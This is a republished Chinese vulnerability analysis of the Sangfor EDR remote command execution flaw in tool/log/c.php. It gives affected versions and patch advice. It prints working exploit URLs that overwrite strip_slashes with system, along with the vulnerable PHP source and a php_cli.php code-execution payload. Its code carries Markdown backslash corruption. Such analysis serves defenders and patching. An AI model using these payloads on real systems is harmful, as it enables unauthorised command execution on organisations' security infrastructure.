







# 深信服终端检测平台（EDR）存在远程命令执行漏洞分析 - 斗象能力中心

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：深信服EDR tool/log/c.php 变量覆盖及其他接口辨析
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：给受影响3.2.16/17/19及3.2.21修复与官方补丁入口；RCE1是否无认证路由前置未展示，原文与补丁来源精确
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 给受影响3.2.16/17/19及3.2.21修复与官方补丁入口
2. 区分其余三个RCE需enable_dc_tool和文件读需登录/限定目录是有价值独立内容，不应合并成四个默认未授权RCE
3. 源码/PoC下划线和数组括号Markdown反斜杠污染，不能直接复制
4. show_input可执行仅猜测且实参为array与system期望类型不同，须验证
5. 默认无标记结论来自少量观测需限定测试固件，enadble拼错
6. store目录读取不能仅因授权就认漏洞或无漏洞，需角色/目录边界
7. RCE1是否无认证路由前置未展示，原文与补丁来源精确

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://blog.riskivy.com/%e6%b7%b1%e4%bf%a1%e6%9c%8d%e7%bb%88%e7%ab%af%e6%a3%80%e6%b5%8b%e5%b9%b3%e5%8f%b0%ef%bc%88edr%ef%bc%89%e5%ad%98%e5%9c%a8%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e/>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.riskivy.com](https://blog.riskivy.com/%e6%b7%b1%e4%bf%a1%e6%9c%8d%e7%bb%88%e7%ab%af%e6%a3%80%e6%b5%8b%e5%b9%b3%e5%8f%b0%ef%bc%88edr%ef%bc%89%e5%ad%98%e5%9c%a8%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e/)

深信服终端检测平台（EDR）存在远程命令执行漏洞分析
--------------------------

2020-08-19 11:30 [漏洞分析](https://blog.riskivy.com/?tag=%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90)

前言
--

终端检测响应平台（EDR）是深信服公司提供的一套终端安全解决方案，EDR 的管理平台支持统一的终端资产管理、终端安全体检、终端合规检查，支持微隔离的访问控制策略统一管理，  
支持对安全事件的一键隔离处置，以及热点事件 IOC 的全网威胁定位，历史行为数据的溯源分析，远程协助取证调查分析。  
在全国重大网络行动的第一天中被爆出存在命令执行漏洞。

漏洞分析
----

### RCE 1

tool\\log\\c.php 文件的变量覆盖漏洞也是最早开始网传的深信服的 RCE 漏洞。该漏洞确实可以复现。  
https://xxx.xxx/tool/log/c.php?strip\_slashes=system&host=id  
原理就是典型的变量覆盖漏洞，这里就不多做赘述了。



payload 不仅这一种，除了 host 作为函数的参数值外，path，row 等也都可以作为函数参数值，所以 payload 可以有以下几种，show\_input 应该也可以作为执行函数。

```
/tool/log/c.php?strip\_slashes=system&host=id
/tool/log/c.php?strip\_slashes=system&path=id
/tool/log/c.php?strip\_slashes=system&row=id
/tool/log/c.php?strip\_slashes=system&limit=id


```

tool/log/c.php 部分源码

```
<?php  
call\_user\_func(function() {
    ....

    /\*\*
     \* 显示表单
     \* @param array $params 请求参数
     \* @return
     \*/
    $show\_form = function($params) use(&$strip\_slashes, &$show\_input) {
        extract($params);
        $host  = isset($host)  ? $strip\_slashes($host)  : "127.0.0.1";
        $path  = isset($path)  ? $strip\_slashes($path)  : "";
        $row   = isset($row)   ? $strip\_slashes($row)   : "";
        $limit = isset($limit) ? $strip\_slashes($limit) : 1000;

        // 绘制表单
        echo "<pre>";
        echo '<form >';
        $show\_input(array("title" => "Host ",  "name" => "host",  "value" => $host,  "note" => " - host, e.g. 127.0.0.1"));
        $show\_input(array("title" => "Path ",  "name" => "path",  "value" => $path,  "note" => " - path regex, e.g. mapreduce"));
        $show\_input(array("title" => "Row  ",  "name" => "row",   "value" => $row,   "note" => " - row regex, e.g. \\s\[w|e\]\\s"));
        $show\_input(array("title" => "Limit",  "name" => "limit", "value" => $limit, "note" => " - top n, e.g. 100"));
        echo '<input type="submit">';
        echo '</form>';
        echo "</pre>";
    };

    /\*\*
     \* 入口函数
     \* @param array $argv 配置参数
     \* @return
     \*/
    $main = function($argv)
        use(&$collect) {
        extract($argv);
        if (!isset($limit)) {
            return;
        }
        $result = $collect($path, $row, $limit, $host);
        if (!is\_array($result)) {
            echo $result, "\\n";
            return;
        }
        if (!isset($result\["success"\]) || $result\["success"\] !== true) {
            echo $result, "\\n";
            return;
        }
        foreach ($result\["data"\] as $host => $items) {
            $last = "";
            foreach ($items as $item) {
                if ($item\["name"\] != $last) {
                    $last = $item\["name"\];
                    echo "\\n\[$host\] -> $last\\n\\n";
                }
                echo $item\["item"\], "\\n";
            }
        }
    };

    set\_time\_limit(0);
    echo '<html><head><meta http-equiv="Content-Type" Content="text/html; Charset=utf-8"></head>';
    echo '<body bgcolor="#e8ddcb">';
    echo "<p><b>Log Helper</b></p>";
    $show\_form($\_REQUEST);
    echo "<pre>";
    $main($\_REQUEST);
    echo "</pre>"; 
});
?>


```

### RCE2？

然后是网传的看着像后门的 RCE，tool/php\_cli.php 。该文件同样存在变量覆盖的疑似漏洞点。

但仔细看代码的话，可以看到文件的开头，就做了个简单的验证。必须存在该文件 ldb\_ext\_root().”/php/enable\_dc\_tool”; 文件目录应该是这个 /ac/dc/ldb/php/enable\_dc\_tool 。我搜了一下一些站点，基本都不存在该文件，该文件应该是需要服务器管理者上去创建的。所以是无法直接执行代码的  
ldb\_ext\_root(). 目录可以通过第一个 RCE 进行读取。  
而默认目录下是没有 enable\_dc\_tool 文件的。  
假设目标主机存在 enable\_dc\_tool 标记，过了第一个判断，则其 payload 类似如下，这里本地进行验证了下。

http://127.0.0.1:8111/tool/php\_cli.php?code=phpinfo();



### RCE3?

网传的第三个 RCE 点，tool\\ldb\_cli.php，该文件也存在多个变量覆盖点。  
但其开头也做了简单的验证，需要存在 enable\_dc\_tool 该文件。所以是也无法直接 RCE 的

**原图暂未找回**（原引用：`  `）

### RCE4?

网传的第四个 RCE 点，tool/mdd\_sql.php，同样存在多个可以变量覆盖的点。  
但还是需要在服务器上添加 enadble\_dc\_tool 标记。// 默认不允许使用，除非登录到后台 touch 标记，这里中文没乱码就可以直观看出来了。所以该功能应该是给服务器管理者测试用的。所以，也是无法直接 RCE 的  


### 任意文件读取？

然后是网传的任意文件读取的漏洞，store/cat.php  
首先，最开始就会检测是否登录。  


其次，有对其进行了简单的校验。只能读取特定目录下的文件。  




所以该漏洞顶多算特定目录需要授权的文件读取。

总体来说，除了 HW 第一天报出来的 / tool/log/c.php 的 RCE 确实可用，目前网上文章中提到的其它漏洞点现在看来都较为鸡肋。

漏洞修复
----

其中 tool 目录看起来只是用来系统维护的，通过安装新版本补丁发现，tool 目录和 store 目录均已经被删除。  


影响范围
----

*   深信服 EDR v3.2.16
*   深信服 EDR v3.2.17
*   深信服 EDR v3.2.19

漏洞处置建议
------

深信服官方已经发布升级版本和补丁，更新至 v3.2.21 版本或升级补丁即可修复该问题并增强其他安全机制。  
1、可以通过在线升级方式推送补丁包修复该漏洞，开启在线升级功能可自动修复该漏洞。  
2、针对无法在线升级的用户，用户可通过以下链接下载升级安装包来完成 EDR 的升级工作：

参考链接
----

1.  https://mp.weixin.qq.com/s/llxds35LdBdfe8r\_ZrzuTw
2.  https://bbs.sangfor.com.cn/plugin.php?id=service:download&action=view&fid=100000022878128#/100000035115623/all/undefined

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
